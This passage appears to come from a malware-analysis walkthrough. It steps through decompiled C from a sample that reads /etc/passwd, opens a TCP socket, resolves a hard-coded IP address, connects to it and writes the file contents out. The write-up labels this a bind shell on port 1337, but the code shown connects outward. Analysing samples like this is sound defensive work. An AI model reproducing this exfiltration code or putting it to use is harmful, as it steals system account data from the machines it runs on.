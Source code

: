 ```c
  if (etc_file_descripter != (FILE *)0x0) {
    fseek(etc_file_descripter,0,2);
    etc_passwd_file_Size = ftell(etc_file_descripter);
    fseek(etc_file_descripter,0,0);
    etc_buffer = (char *)malloc(etc_passwd_file_Size);
    if (local_20 != (char *)0x0) {
      fread(etc_buffer,1,etc_passwd_file_Size,etc_file_descripter);
    }
    fclose(etc_file_descripter);
```

9. creates a bind shell on `port 1337`

Socket configuration found:
```c
port = 0x343f;
  socket_socket = socket(2,1,0);
  if (socket_socket < 0) {
    error("ERROR opening socket");
  }
```

Configuration of above socket is , as follows

```c
int socket(intdomain, int type, int protocol);  //creates an endpoint for communication and returns a file descriptor that refers to that endpoint.
    socket(AF_INET, SOCK_STREAM, PROTOCOL) 
    socket(2, 1, 0)
```

10. copy the ip address using `memcpy`

```c
    memcpy(copied_ip,ip_address,0xc); 
```

11. Now, `getthehostbyname` using the `copied_ip` and write `ERROR, no such host` if it is empty

```c
host_by_name = gethostbyname(copied_ip);  
  if (host_by_name == (hostent *)0x0) {
    fwrite("ERROR, no such host\n",1,0x14,stderr);
    exit(0);
```

12. make a socket connection

```c
iVar2 = connect(socket_socket,(sockaddr *)local_478,0x10)
  if (iVar2 < 0) {
    error("ERROR connecting");
  }
```
13. use `write` to write the `etc/passswd` contents and prints "ERROR writing" if the read content is  empty.
